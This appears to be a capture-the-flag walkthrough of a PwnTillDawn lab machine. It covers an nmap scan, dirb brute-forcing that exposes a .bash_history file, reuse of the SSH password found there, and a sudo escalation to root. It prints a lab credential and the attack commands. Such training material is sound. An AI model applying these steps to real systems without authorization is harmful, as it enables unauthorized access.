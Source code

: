 ```yaml
---
categories: [PwnTillDawn]
tags: [Password Bruteforce, Hid&Trial, PrivEsc]  
media_subpath: /Vulnhub-Files/img/
image:
  path: Vega/Untitled.png
  alt: PwnTillDawn Machine ➡️ https://www.wizlynxgroup.com/ https://online.pwntilldawn.com/
---
```


## Description ⤵️ 

This is a <kbd>*Hollywood*</kbd> machine writeup/walkthrough, from PwnTillDawn platform -> https://online.pwntilldawn.com/ with is maintain through wizlynx group -> https://www.wizlynxgroup.com/ .


## Port Scan Results ⤵️

```bash
**┌──(kali㉿kali)-[~/Downloads/PwnTillDawn/222]
└─$ cat Nmap_results.txt
# Nmap 7.94 scan initiated Sun Oct 15 15:37:40 2023 as: nmap -sC -sV -p- -T4 -oN Nmap_results.txt 10.150.150.222
Nmap scan report for 10.150.150.222
Host is up (0.17s latency).
Not shown: 65531 closed tcp ports (reset)
PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 af:56:59:c5:9a:de:f4:a9:b7:8f:34:4b:a2:21:24:71 (RSA)
|   256 1b:e8:16:d4:dc:a6:7a:3e:5d:6f:f2:95:5a:59:08:9a (ECDSA)
|_  256 9c:35:dd:da:ee:a9:b4:0b:55:68:45:fd:8f:85:35:30 (ED25519)
80/tcp    open  http     Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Home Page
8089/tcp  open  ssl/http Splunkd httpd
| http-robots.txt: 1 disallowed entry 
|_/
| ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser
| Not valid before: 2019-10-25T09:19:54
|_Not valid after:  2022-10-24T09:19:54
|_http-server-header: Splunkd
|_http-title: splunkd
10000/tcp open  http     MiniServ 1.941 (Webmin httpd)
|_http-title: Site does not have a title (text/html; Charset=iso-8859-1).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel**
```
{: .nolineno}

## Web Enumeration ⤵️

I started doing directory or files bruteforcing and I got some results from the `/home` directories →

```bash
┌──(kali㉿kali)-[~/Downloads/PwnTillDawn/222]
└─$ dirb 'http://10.150.150.222/' 

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Sun Oct 15 20:55:21 2023
URL_BASE: http://10.150.150.222/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.150.150.222/ ----
+ http://10.150.150.222/.bash_history (CODE:200|SIZE:2235)                                                                                       
+ http://10.150.150.222/.bashrc (CODE:200|SIZE:3771)                                                                                             
==> DIRECTORY: http://10.150.150.222/.cache/                                                                                                     
+ http://10.150.150.222/.profile (CODE:200|SIZE:807)                                                                                             
+ http://10.150.150.222/0 (CODE:200|SIZE:82726)                                                                                                  
+ http://10.150.150.222/admin (CODE:302|SIZE:0)                                                                                                  
+ http://10.150.150.222/catalog (CODE:302|SIZE:0)                                                                                                
+ http://10.150.150.222/checkout (CODE:302|SIZE:0)                                                                                               
+ http://10.150.150.222/cms (CODE:200|SIZE:82740)                                                                                                
+ http://10.150.150.222/contact (CODE:200|SIZE:28351)                                                                                            
+ http://10.150.150.222/home (CODE:200|SIZE:80260)                                                                                               
+ http://10.150.150.222/Home (CODE:301|SIZE:0)                                                                                                   
+ http://10.150.150.222/index.php (CODE:200|SIZE:82738)                                                                                          
^C> Testing: http://10.150.150.222/known_hosts
```
{: .nolineno}

Lets check `.bash_history` here →

![Untitled](Vega/Untitled%201.png)

I got a mysql password and username as →

```bash
vega : puplfiction1994
```
{: .nolineno}

I tried this credentials for SSH login and I got it as wrong credentials and I also I tried to download the file dumpmagento.sql to the system and the file was of 0 bytes →

```bash
┌──(kali㉿kali)-[~/Downloads/PwnTillDawn/222]
└─$  ls -al dumpmagento.sql 
-rw-r--r-- 1 kali kali 0 Oct 17 20:30 dumpmagento.sql
```
{: .nolineno}

>It means that → 
>
>1. If the database is empty thats why it is of 0 bytes or .
>2. If the password or the login credentials is wrong that is why.
{: .prompt-tip }

I checked the site again and I got something related to the password like this →

![Untitled](Vega/Untitled%202.png)

Now I compared it with password and got to know that the bash_history entry is of human error so lets use this password insted → 

```bash
vega : pulpfiction1994
```
{: .nolineno}

## SSH SHELL ⤵️

```bash
┌──(kali㉿kali)-[~/Downloads/PwnTillDawn/222]
└─$ ssh vega@10.150.150.222
vega@10.150.150.222 is password: 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-66-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Oct 17 16:24:55 UTC 2023

  System load:  0.23               Processes:            186
  Usage of /:   43.2% of 19.56GB   Users logged in:      1
  Memory usage: 21%                IP address for ens33: 10.150.150.222
  Swap usage:   0%

 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

51 packages can be updated.
31 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Tue Apr 21 10:11:55 2020
vega@vega:~$ whoami
vega
vega@vega:~$ id
uid=1000(vega) gid=1000(vega) groups=1000(vega),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
vega@vega:~$ sudo -l
[sudo] password for vega: 
Matching Defaults entries for vega on vega:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User vega may run the following commands on vega:
    (ALL : ALL) ALL
vega@vega:~$ sudo su -
root@vega:~# whoami
root
root@vega:~# id
uid=0(root) gid=0(root) groups=0(root)
root@vega:~# cd /root
root@vega:~# ls -al
total 60
drwx------  7 root root 4096 May 14  2020 .
drwxr-xr-x 24 root root 4096 Oct 23  2019 ..
-rw-------  1 root root 2513 Apr 21  2020 .bash_history
-rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
-rw-r--r--  1 root root  115 May 14  2020 CAM.shortcut
drwxr-xr-x  2 root root 4096 Sep  6  2019 .composer
-rw-r--r--  1 root root   41 Sep 27  2019 FLAG42.txt
drwx------  3 root root 4096 Oct  4  2019 .gnupg
drwxr-xr-x  3 root root 4096 Sep  6  2019 .local
-rw-------  1 root root  651 Apr  2  2020 .mysql_history
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   66 Sep  6  2019 .selected_editor
drwx--x---  2 root root 4096 Oct 25  2019 .splunk
drwx------  2 root root 4096 Sep  6  2019 .ssh
-rw-------  1 root root 2085 Sep 27  2019 .viminfo
root@vega:~#
```
{: .nolineno}

Now I am root !!

> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }